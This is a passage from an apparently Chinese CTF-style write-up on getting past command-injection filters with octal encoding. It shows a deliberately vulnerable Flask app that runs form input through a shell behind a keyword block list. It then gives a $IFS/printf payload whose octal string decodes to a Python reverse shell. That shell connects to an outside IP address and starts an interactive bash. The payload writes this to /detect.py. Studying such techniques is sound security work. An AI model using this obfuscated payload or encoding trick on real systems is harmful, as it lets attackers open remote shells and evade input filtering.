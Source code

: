 ## 八进制绕过

$(printf "\154\163")//ls命令，这个编码后可以拼接

```php
//这里过滤了-.等符号，只允许0-9a-zA-Z">\\\$();
echo$IFS$9$(printf$IFS$9"\163\75\137\137\151\155\160\157\162\164\137\137\50\42\163\157\143\153\145\164\42\51\56\163\157\143\153\145\164\50\137\137\151\155\160\157\162\164\137\137\50\42\163\157\143\153\145\164\42\51\56\101\106\137\111\116\105\124\54\137\137\151\155\160\157\162\164\137\137\50\42\163\157\143\153\145\164\42\51\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\64\67\56\61\60\60\56\61\62\60\56\61\62\63\42\54\62\63\63\63\51\51\73\137\137\151\155\160\157\162\164\137\137\50\42\157\163\42\51\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\137\137\151\155\160\157\162\164\137\137\50\42\157\163\42\51\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\137\137\151\155\160\157\162\164\137\137\50\42\157\163\42\51\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\75\137\137\151\155\160\157\162\164\137\137\50\42\163\165\142\160\162\157\143\145\163\163\42\51\56\143\141\154\154\50\133\42\57\142\151\156\57\142\141\163\150\42\54\42\55\151\42\135\51\73")>$(printf$IFS$9"\57")detect$(printf$IFS$9"\56")py
echo 'python反弹shell的payload' /detect.py
```

```python
from flask import Flask
from flask import render_template,request
import subprocess,re
app = Flask(__name__)

@app.route('/',methods=['GET'])
def index():
    return render_template('index.html')

@app.route('/run',methods=['POST'])
def run():
    cmd = request.form.get("cmd")
    if re.search(r'''[^0-9a-zA-Z">\\\$();]''',cmd):
        return 'Hacker!'
    if re.search(r'''ping|wget|curl|bash|perl|python|php|kill|ps''',cmd):
        return 'Hacker!'
    p = subprocess.Popen(cmd,stderr=subprocess.STDOUT, stdout=subprocess.PIPE,shell=True,close_fds=True)
    try:
        (msg, errs) = p.communicate(timeout=5)
        return msg
    except Exception as e:
        return 'Error!'

app.run(host='0.0.0.0',port='5000')
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528085106453.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

## 十六进制绕过
